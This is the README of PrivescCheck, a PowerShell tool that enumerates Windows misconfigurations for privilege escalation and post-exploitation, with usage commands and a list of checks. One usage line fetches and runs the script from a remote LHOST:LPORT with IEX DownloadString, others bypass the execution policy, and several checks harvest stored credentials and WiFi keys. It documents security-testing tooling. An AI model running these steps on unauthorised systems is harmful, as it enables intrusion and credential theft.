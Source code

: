 # PrivescCheck

This script aims to __enumerate common Windows security misconfigurations__ which can be leveraged for privilege escalation and __gather various information__ which might be useful for __exploitation__ and/or __post-exploitation__.

I built on the amazing work done by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation) in [PowerUp](https://github.com/HarmJ0y/PowerUp). I added more checks and also tried to reduce the amount of false positives.

## Usage 

Use the script from a PowerShell prompt.
```
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck 
```

Display output and write to a log file at the same time.
```
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object "C:\Temp\result.txt"
```

Use the script from a CMD prompt.
```
C:\Temp\>powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object result.txt"
```

Import the script from a web server.
```
C:\Temp\>powershell "IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PrivescCheck.ps1'); Invoke-PrivescCheck" 
```


## Yet another Windows Privilege escalation tool, why?

I really like [PowerUp](https://github.com/HarmJ0y/PowerUp) because it can enumerate common vulnerabilities very quickly and without using any third-party tools. The problem is that it hasn't been updated for several years now. The other issue I spotted quite a few times over the years is that it sometimes returns false positives which are quite confusing.

Other tools exist on GitHub but they are __not as complete__ or they have __too many dependencies__. For example, they rely on WMI calls or other command outputs.

Therefore, I decided to make my own script with the following constraints in mind:

- __It must not use third-party tools__ such as `accesschk.exe` from SysInternals.

- __It must not use built-in Windows commands__ such as `whoami.exe` or `netstat.exe`. The reason for this is that I want my script to be able to run in environments where AppLocker (or any other Application Whitelisting solution) is enforced.

- __It must not use built-in Windows tools__ such as `sc.exe` or `tasklist.exe` because you'll often get an __Access denied__ error if you try to use them from WinRM for example.

- __It must not use WMI__ because its usage can be restricted to admin-only users.

- Last but not least, it must be compatible with __PowerShell Version 2__. 


## Addressing all the constraints...

- __Third-party tools__

I have no merit, I reused some of the code made by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation). Indeed, PowerUp has a very powerfull function called `Get-ModifiablePath` which checks the ACL of a given file path to see if the current user has write permissions on the file or folder. I modified this function a bit to avoid some false positives though. Before that a service command line argument such as `/svc`could be identified as a vulnerable path because it was interpreted as `C:\svc`. My other contribution is that I made a _registry-compatible_ version of this function (`Get-ModifiableRegistryPath`).

- __Windows built-in windows commands/tools__

When possible, I naturally replaced them with built-in PowerShell commands such as `Get-Process`. In other cases, such as `netstat.exe`, you won't get as much information as you would with basic PowerShell commands. For example, with PowerShell, TCP/UDP listeners can easily be listed but there is no easy way to get the associated Process ID. In this case, I had to invoke Windows API functions.

- __WMI__

You can get a looooot of information through WMI, that's great! But, if you face a properly hardened machine, the access to this interface will be restricted. So, I had to find workarounds. And here comes the __Registry__! Common checks are based on some registry keys but it has a lot more to offer. The best example is services. You can get all the information you need about every single service (except their current state obviously) simply by browsing the registry. This is a huge advantage compared to `sc.exe` or `Get-Service` which depend on the access to the __Service Control Manager__. 

- __PowerShellv2 support__

This wasn't that easy because newer version of PowerShell have very convenient functions or options. For example, the `Get-LocalGroup`function doesn't exist and `Get-ChildItem` doesn't have the `-Depth` option in PowerShellv2. So, you have to work your way around each one of these small but time-consuming issues. 


## Features 

### Current User 

```
Invoke-UserCheck - Gets the usernane and SID of the current user
Invoke-UserGroupsCheck - Enumerates groups the current user belongs to except default and low-privileged ones
Invoke-UserPrivilegesCheck - Enumerates the high potential privileges of the current user's token
Invoke-UserEnvCheck - Checks for sensitive data in environment variables
```

### Services

```
Invoke-InstalledServicesCheck - Enumerates non-default services
Invoke-ServicesPermissionsCheck - Enumerates the services the current user can modify through the service control manager
Invoke-ServicesPermissionsRegistryCheck - Enumerates services that can be modified by the current user in the registry
Invoke-ServicesImagePermissionsCheck - Enumerates all the services that have a modifiable binary (or argument)
Invoke-ServicesUnquotedPathCheck - Enumerates services with an unquoted path that can be exploited
```

### Dll Hijacking

```
Invoke-DllHijackingCheck - Checks whether any of the system path folders is modifiable
Invoke-HijackableDllsCheck - Lists hijackable DLLs depending on the version of the OS
```

### Programs

```
Invoke-InstalledProgramsCheck - Enumerates the applications that are not installed by default
Invoke-ModifiableProgramsCheck - Enumerates applications which have a modifiable EXE of DLL file
Invoke-ApplicationsOnStartupCheck - Enumerates the applications which are run on startup
Invoke-RunningProcessCheck - Enumerates the running processes
Invoke-ScheduledTasksCheck - Enumrates scheduled tasks with a modifiable path
```

### Credentials

```
Invoke-SamBackupFilesCheck - Checks common locations for the SAM/SYSTEM backup files
Invoke-UnattendFilesCheck - Enumerates Unattend files and extracts credentials 
Invoke-WinlogonCheck - Checks credentials stored in the Winlogon registry key
Invoke-CredentialFilesCheck - Lists the Credential files that are stored in the current user AppData folders
Invoke-VaultCredCheck - Enumerates credentials saved in the Credential Manager
Invoke-VaultListCheck - Enumerates web credentials saved in the Credential Manager
Invoke-GPPPasswordCheck - Lists Group Policy Preferences (GPP) containing a non-empty "cpassword" field
```

### Registry

```
Invoke-UacCheck - Checks whether UAC (User Access Control) is enabled
Invoke-LapsCheck - Checks whether LAPS (Local Admin Password Solution) is enabled
Invoke-PowershellTranscriptionCheck - Checks whether PowerShell Transcription is configured/enabled
Invoke-RegistryAlwaysInstallElevatedCheck - Checks whether the AlwaysInstallElevated key is set in the registry
Invoke-LsaProtectionsCheck - Checks whether LSASS is running as a Protected Process (+ additional checks)
Invoke-WsusConfigCheck - Checks whether the WSUS is enabled and vulnerable (Wsuxploit)
```

### Network

```
Invoke-TcpEndpointsCheck - Enumerates unusual TCP endpoints on the local machine (IPv4 and IPv6)
Invoke-UdpEndpointsCheck - Enumerates unusual UDP endpoints on the local machine (IPv4 and IPv6)
Invoke-WlanProfilesCheck - Enumerates the saved Wifi profiles and extract the cleartext key/passphrase when applicable
```

### Misc

```
Invoke-WindowsUpdateCheck - Checks the last update time of the machine
Invoke-SystemInfoCheck - Gets the name of the operating system and the full version string
Invoke-LocalAdminGroupCheck - Enumerates the members of the default local admin group
Invoke-UsersHomeFolderCheck - Enumerates the local user home folders
Invoke-MachineRoleCheck - Gets the role of the machine (workstation, server, domain controller)
Invoke-SystemStartupHistoryCheck - Gets a list of system startup events 
Invoke-SystemStartupCheck - Gets the last system startup time
Invoke-SystemDrivesCheck - Gets a list of local drives and network shares that are currently mapped
```

